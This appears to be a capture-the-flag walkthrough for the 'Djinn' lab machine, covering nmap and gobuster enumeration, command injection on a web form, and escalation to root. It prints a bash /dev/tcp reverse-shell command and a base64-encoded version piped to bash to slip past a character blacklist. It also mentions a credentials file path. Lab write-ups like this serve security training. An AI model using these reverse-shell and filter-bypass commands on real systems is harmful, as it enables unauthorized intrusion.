

# Djinn

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.196.1/24 -oN host_discovery.txt`

## 1.2 Service enum
`nmap -sV -sC -p- 192.168.196.129 -oN full_service_enum-sC.txt`

`nmap -sV -sU -F 192.168.196.129 -oN udp-sC-sV.txt`

## 1.3 Web port 7331
### 1.3.1 Enum web content
`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50 -f -o info2.txt` <- with added slashs, it don't returns results.

`gobuster dir -u http://192.168.196.129:7331/ -w /usr/share/wordlists/dirb/big.txt -t 50`

### 1.3.2 Genie page

### 1.3.3 Wish page

What is typed here is interpreted as linux terminal commands.

And returns as paragraph:

At this point, we cag get a reverse shell with python.

# 2 Exploitation with bypass filter
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
All reverse shells were blocked. Apparently the "/" character is identified and blocked.

An attempt to bypass by base64 encoding worked.

`echo "bash -i >& /dev/tcp/192.168.196.121/4446 0>&1" | base64` <- on kali linux

`echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE5Ni4xMjEvNDQ0NiAwPiYxCg==" | base64 -d | bash` <- web target

# 3 Post-exploitation

Here we can see the blocking method used, a blacklist.

Also there is a path with creeds:
`/home/nitish/.dev/creds.txt`

## 3.1 Nitish user

## 3.2 Sam user
LinEnum.sh returns some good information:

After try different methods to get shell, none results.

### 3.2.1 Basic bin analisys and shell
The first way is to use the `strings` command to get some information. For that you need to download the binary to the Kali machine and use the command:
`strings genie`

`sudo -u sam /usr/bin/genie -cmd test`

## 3.3 Getting root

What works here, was set the option `2` and after type `num` (apparently a variable). Done, it's possible get root.

